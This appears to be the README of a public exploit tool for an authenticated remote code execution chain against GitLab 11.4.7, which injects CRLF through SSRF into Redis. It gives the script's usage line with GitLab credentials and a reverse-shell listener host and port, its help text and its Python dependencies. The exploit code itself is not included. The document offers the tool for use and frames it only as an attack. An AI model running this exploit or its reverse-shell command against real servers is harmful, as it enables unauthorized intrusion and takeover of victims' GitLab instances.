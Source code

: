 # GitLab-11.4.7-Authenticated-Remote-Code-Execution        
# (SSRF + CRLF -> Redis -> RCE)

<h4> Blog : https://github.com/jas502n/gitlab-SSRF-redis-RCE/blob/master/README.md </h4>


<h3> Usage : python3 gitlab_rce.py -U `USERNAME` -P `PASSWORD` -l `LHOST` -p `LPORT` </h3>
  

usage: gitlab_rce.py [-h] [-U U] [-P P] [-l L] [-p P]

GitLab 11.4.7 Authenticated RCE

<p>optional arguments:</p>

 <p> -h, --help show this help message and exit </p>
 <p> -U         GitLab Username </p>
 <p> -P         Gitlab Password </p>
 <p> -l         rev shell lhost </p>
 <p> -p         rev shell lport </p> 


# Dependencies

<h4> pip3 install RandomWords==0.3.0 </h4>
<h4> pip3 install bs4 </h4>
<h4> pip3 install requests </h4>
